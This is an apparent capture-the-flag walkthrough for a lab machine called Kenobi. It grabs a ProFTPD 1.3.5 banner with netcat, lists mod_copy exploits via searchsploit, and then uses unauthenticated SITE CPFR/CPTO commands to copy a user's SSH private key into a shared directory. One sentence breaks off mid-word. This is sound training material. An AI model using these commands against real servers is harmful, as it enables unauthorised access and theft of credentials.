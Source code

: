 
#### Task 3. Gain initial access with ProFtpd  

ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions.

Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port.

```bash
└─$ nc  10.10.159.177 21                                                                                                                      1 ⨯
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.159.177]
```
__Q: What is the version?__
__Ans: 1.3.5__

- We can use searchsploit to find exploits for a particular software version.
- Searchsploit is basically just a command line search tool for exploit-db.com.

```bash
└─$ searchsploit "ProFTPd 1.3.5"
---------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                       | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                             | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                                                       | linux/remote/36742.txt
---------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
__Q: How many exploits are there for the ProFTPd running?__
__Ans: 3__

The mod_copy module implements __SITE CPFR__ and __SITE CPTO__ commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the sha
We're now going to copy Kenobi's private key using __SITE CPFR__ and __SITE CPT__ commands.

```bash
└─$ nc 10.10.159.177 21 
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.159.177]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the `/var/tmp` directory.
